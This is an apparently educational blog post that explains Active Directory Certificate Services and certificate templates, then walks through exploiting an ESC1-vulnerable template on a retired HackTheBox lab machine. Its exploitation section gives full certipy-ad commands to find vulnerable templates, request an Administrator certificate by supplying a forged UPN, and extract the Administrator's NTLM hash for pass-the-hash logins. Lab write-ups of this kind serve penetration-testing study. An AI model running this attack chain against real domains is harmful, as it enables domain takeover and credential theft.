






## What is Active Directory Certificate Services (ADCS) ?

Active Directory Certificate Services (AD CS) is a Windows Server role responsible for issuing, managing and validating digital certificates within a public key infrastructure (PKI). Active Directory Certificate Services provides a secure and scalable platform for managing digital identities, ensuring the confidentiality, integrity and availability of information within an organization. Active Directory Certificate Services is currently supported in all major versions of windows server: Windows Server 2025, 2022, 2019, 2016, and 2012 R2.

### Main components of Active Directory Certificate Services:

- **Certificate Authority (CA):** Issues and manages digital certificates.

- **Certificate Templates:** Define the properties and usage of certificates.

- **Certificate Authority Web Enrollment:** Allows users and computers to request certificates through a web-based interface.

- **Public Key Infrastructure:** PKI manages certificates and public key encryption.

- **Certificate Signing Request:** CSR is a message send to CA to request a signed certificate

- **Extended Key Usage:** Extended Key Usage are object indentifiers that define how a generated certificate may be used.

## Certificate Templates

Since Active Directory Certificate Services is such a critical service, it usually runs on only a few selected domain controllers, normal users can't interact with the AD CS directly. Some organizations that are too large have administrator's that create and distribute each certificate manually, distributing certificates manually to each user is not feasible in larger organizations. This is where certificate templates come into action, AD CS administrators can create several templates that can allow users with the relevant permission to request a certificate themselves. These certificate templates have specific parameters that define which user can request the certificate and what permissions are required.


Credit: SpecterOps

## What vulnerabilities can arise with Certificate Templates ?

This vulnerability was researched and discovered by [SpecterOps](https://specterops.io/) and later disclosed in their [whitepaper](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf) in 2021. This whitepaper highlights how specific combination of parameters in certificate templates can be abused and lead to privilege escalation to domain administrator and persistent access for years.

## Format of a Certificate Template

A certificate template consists of various parameters, a misconfigured combination of these parameters leads to vulnerabilities in certificate templates. Some of the well known vulnerabilities in certificate templates are: ESC1, ESC4, ESC7, ESC9, ESC15 and so on.

Here is what a certificate vulnerable to ESC1 looks like:


The template is vulnerable to ESC1 because it has: Enrollee supplies subject and template allows client authentication parameters enabled. 
Other ESC(2-16) vulnerabilities have different combination of parameters in templates that make them vulnerable.

## Exploiting AD CS Templates

For this blog, i will be using a retired machine from HackTheBox: [Escape](https://app.hackthebox.com/machines/531)

The first step to determining vulnerable templates, is using our credentials to collect data for bloodhound and figuring out whether our compromised user account has access to the ADCS or not.



Here in bloodhound we can see that our compromised user *Ryan Cooper* is part of the **CERTIFICATE SERVICE DCOM ACCESS** group. Which seems to be the ADCS group.

This can also be identified in powershell by running:

```
whoami /all
```



Now that we know that our user is potentially part of the ADCS group, we can use [certipy-ad](https://github.com/ly4k/Certipy) - a very powerful tool for attacking and enumerating AD CS. It supports identification and exploitation of ESC1-ESC16 vulnerabilities.

Certipy-ad can be installed on kali linux using apt: `sudo apt-get install certipy-ad`

> Note: certipy-ad often goes through various updates, so the commands and switches/flags I am using in this blog works as of 21-06-2025, it may or may not work in future. So please reference the official documentation for certipy-ad on their github repository.

1. **Identifying vulnerable templates:**

We can use certipy-ad to identify vulnerable templates using the credential for the user we have access to, certipy-ad accepts both password and ntlm hash for authentication.

```
certipy-ad find -u "ryan.cooper@sequel.htb" -p "NuclearMosquito3" -dc-ip 10.10.11.202 -vulnerable -enabled -stdout
```

Flags:
- **find**: certipy-ad option for enabling certificate enumeration
- **-u**: username
- **-p**: password
- **-dc-ip**: domain controller ip
- **-vulnerable**: find vulnerable templates on the dc
- **-enabled**: search for enabled/working templates only
- **-stdout**: standard output, output the result of terminal instead of writing them to files which certipy-ad does by default (it creates a mess).

We get the result and one of the templates is vulnerable to ESC1 because it has 2 particular parameters: *Enrollee supplies subject* and template allows *client authentication*



2. **Requesting Administrator's certificate:**

Now that we know the target template and its details, we can abuse it to issue administrator user's certificate and get access to target system as admin. This is also done using certipy-ad

```
certipy-ad req -u 'ryan.cooper@sequel.htb' \
-p 'NuclearMosquito3' \
-dc-ip 10.10.11.202 \
-target 'sequel.htb' \
-ca 'sequel-DC-CA' -template 'UserAuthentication' \
-upn 'Administrator@sequel.htb'
```

Flag:
Other than the flags i discussed above here is what the other flags are for,
- **req**: certipy-ad option requesting certificate
- **-target**: specify target domain
- **-ca**: Name of the certificate authority, can be found on the result of vulnerable template enumeration we did previously
- **-upn**: User Principal Name of target user, i.e. Administrator

This will request a certificate for administrator user from the AD CS and save it as a **.pfx** (personal information exchange file) file on our system.


3. **Dumping Administrator's NTLM hash using the PFX file:**

Now we can use certipy-ad to use the administrator.pfx file and dump the ntlm hash for administrator user:

```
certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.202
```

Flags:
- **auth**: certipy-ad option for authentication
- **-pfx**: specifying the pfx file to use

And we get the administrator ntlm hash that we can use with psexec, evil-winrm, etc to authenticate and access the target system as administrator.



## Conclusion
In this blog we discussed about Active Directory Certificate Services, its components, working of certificate templates SpecterOps discovery and research of certificate template abuse. Then we discussed template vulnerabilities (ESC), how we identify esc1 vulnerability using certipy-ad, how to request administrator's certificate using certipy-ad and then dumping the NTLM hash of the administrator, which can then be used for authentication via various protocols like winrm, smb, etc.
